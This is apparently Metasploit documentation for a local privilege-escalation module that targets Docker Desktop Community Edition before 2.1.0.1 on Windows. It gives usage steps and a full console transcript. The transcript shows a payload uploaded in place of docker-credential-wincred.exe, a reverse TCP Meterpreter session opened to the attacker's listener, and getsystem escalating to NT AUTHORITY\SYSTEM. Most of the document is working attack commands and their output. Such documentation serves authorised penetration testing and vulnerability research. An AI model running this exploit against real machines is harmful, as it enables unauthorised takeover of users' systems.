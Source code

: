 ## Vulnerable Application

  Docker Desktop Community Edition before 2.1.0.1
  https://download.docker.com/win/stable/28905/Docker%20for%20Windows%20Installer.exe

## Verification Steps

  1. Docker Desktop Community Edition before 2.1.0.1
  2. Start msfconsole
  3. Get a session with basic privileges
  4. Do: ```use exploit/windows/local/docker_credential_wincred```
  5. Do: ```set SESSION <sess_no>```
  6. Do: ```run```
  7. You should get a shell you can elevate with ```getsystem```.

## Scenarios

### Tested on Docker Community Edition 2.0.0.0 running on Windows 10x64 Release 1803

  ```
msf5 exploit(windows/local/docker_credential_wincred) > show options

Module options (exploit/windows/local/docker_credential_wincred):

   Name         Current Setting                            Required  Description
   ----         ---------------                            --------  -----------
   PROGRAMDATA  C:\ProgramData\DockerDesktop\version-bin\  no        Path to docker version-bin.
   SESSION                                                 yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/local/docker_credential_wincred) > set session 1
session => 1
msf5 exploit(windows/local/docker_credential_wincred) > check

[*] Docker version 18.09.0, build 4d60db4
[*] The target appears to be vulnerable.
msf5 exploit(windows/local/docker_credential_wincred) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] Docker version 18.09.0, build 4d60db4
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] payload_pathname = C:\ProgramData\DockerDesktop\version-bin\\docker-credential-wincred.exe
[*] Making Payload
[*] Uploading Payload to C:\ProgramData\DockerDesktop\version-bin\\docker-credential-wincred.exe
[*] Payload Upload Complete
[*] Waiting for user to attemp to login
[*] Sending stage (180291 bytes) to 192.168.132.125
[*] Meterpreter session 3 opened (192.168.135.168:4444 -> 192.168.132.125:49766) at 2020-04-15 16:32:09 -0500

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
